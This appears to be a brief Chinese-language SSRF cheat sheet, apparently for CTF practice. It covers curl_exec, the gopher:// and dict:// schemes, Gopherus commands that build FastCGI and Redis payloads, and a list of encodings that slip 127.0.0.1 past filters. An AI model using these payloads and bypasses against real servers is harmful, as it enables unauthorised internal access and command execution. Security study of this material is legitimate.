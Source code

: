 涉及函数

```php
curl_exec() curl_exec函数⽤于执⾏指定的cURL会话。
```

## 涉及协议

```bash
file://
gopher://     #gopher://<host>:<port>/<gopher-path>
dict:// # dict://127.0.0.1:6379 //探测redis是否存活
```

## gopher

如果 redis 有验证用 `gophper-redis-auth.py`

```sh
python2 gopherus.py --exploit fastcgi
参数1： /var/www/html/index.php
参数2cmd: ls
python2 gopherus.py --exploit redis
参数1： php
参数2cmd: ls
```

- 生成的 payload 再次 url 编码,
- encode all special chars (Cyberchef) 再使用

## 127.0.0.1 绕过

```bash
url=http://xxx@127.0.0.1
1②7.0.0.1
127。 0。 0。 1
127.1
0177.0.0.1 //⼋进制
0x7f.0.0.1 //⼗六进制
2130706433 //⼗进制
url=http://0/flag.php
0.0.0.0
```
